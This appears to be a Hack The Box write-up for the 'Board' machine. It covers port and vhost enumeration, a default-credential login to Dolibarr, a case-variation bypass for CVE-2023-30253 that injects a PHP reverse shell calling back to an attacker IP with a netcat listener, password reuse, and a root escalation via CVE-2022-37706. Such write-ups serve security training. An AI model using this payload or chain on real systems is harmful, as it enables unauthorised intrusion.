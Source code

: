 
![Logo](https://github.com/user-attachments/assets/997ea495-b7d7-49e5-83fe-5747fa781fbe)



---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [cY83rR0H1t](https://app.hackthebox.com/users/116842)         | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---









- I start with a scan of the open ports,
    
    ```bash
    nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.11 -oG scan
    ```
    
    ![image](https://github.com/user-attachments/assets/847f9aac-35ba-483a-a1ff-a1f17d892d4d)

    
- Scanning open ports.
    
    ```bash
    nmap -p22,80 -sCV 10.10.11.11 -oN ports
    ```
    
    ![image 1](https://github.com/user-attachments/assets/4af6c432-5608-4d56-b5ca-ce6d1d162183)

    
- I look at what technologies they are using on the website. I found a path with this acknowledgement and added it to the `/etc/hosts` file
    
    ```bash
    whatweb http://10.10.11.11
    ```
    
    ![image 2](https://github.com/user-attachments/assets/3f40d9c0-17f0-4c0b-b3d6-7d4999b0250b)

    
    ![image 3](https://github.com/user-attachments/assets/a1a16ad8-6a53-4258-806e-8b7063887c59)

    

- After searching for a while through the site and the routes discovered with gobuster I can't find anything relevant. When searching for virtual host I find one, `crm`
    
    ```bash
    wfuzz -c -t 200 --hh=15949 -w /usr/share/amass/wordlist/subdomains-top1mil-110000.txt -H "Host: FUZZ.board.htb" http://board.htb
    ```
    
    ![image 4](https://github.com/user-attachments/assets/136c7374-9ecf-4c64-9931-df865cd0cff1)

    

- I add it to the /etc/hosts file and enter the site
    
    ![image 5](https://github.com/user-attachments/assets/1022eef5-74b8-4ed5-a082-df4ef70f3972)

    

- I search for the default credentials `admin`:`admin` and get access.
    
    ![image 6](https://github.com/user-attachments/assets/f84e9d4c-a5e3-448c-9659-f6ac6f6143dc)

    
- When looking for vulnerabilities of this version I find the CVE-2023-30253 that consists in creating a website and a page to which we can add php code. This has a validation that does not allow us to introduce the string “php” but when we put it in the following way if it allows us.
    
    [Security Advisory: Dolibarr 17.0.0 PHP Code Injection (CVE-2023-30253) - Swascan](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)
    
- We add a piece of code to create a reverse shell and we enter to see the page that we have just created to execute our code.
    
    ```bash
    <?pHp
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.205/4242 0>&1'");
    ?>
    ```
    
    ![image 7](https://github.com/user-attachments/assets/a198ee8c-4795-42ba-8bdb-cd93643ee12d)

    
- I start listening on port 4242 and I get a shell
    
    ```bash
    nc -nlvp 4242
    ```
    
    ![image 8](https://github.com/user-attachments/assets/61e1c3de-c498-49e3-b457-dcfa01c6a673)

    
- I search the Dolibarr configuration file and find some mysql credentials.
    
    ![image 9](https://github.com/user-attachments/assets/bba71c30-76de-44c2-8d2e-0b2d864c6c8f)

    
- I try to reuse the password found with the user `larissa` that I find by looking at the `/etc/passwd` file.
    
    ![image 10](https://github.com/user-attachments/assets/9e28d658-97cb-459a-9960-bc46f729bf71)

    
- Searching for suid permissions I find some unusual files and running leanpeas confirms my suspicions. The enlightenment files with versions prior to 0.25.4 have a vulnerability listed in `CVE-2022-37706`.
    
    ```bash
    find / -perm -4000 2>/dev/null
    ```
    
    ![image 11](https://github.com/user-attachments/assets/7424bc86-2196-487d-8ca9-310a94dd7e42)

    
    ![image 12](https://github.com/user-attachments/assets/7fd9cefb-a033-4ce7-abd2-67ce911e2cb4)

    
- I find a POC of this CVE and by executing it I manage to escalate my privileges and become root
    
    [CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)
    
    ![image 13](https://github.com/user-attachments/assets/5b67c560-7461-48e8-a39c-ce984ba199be)
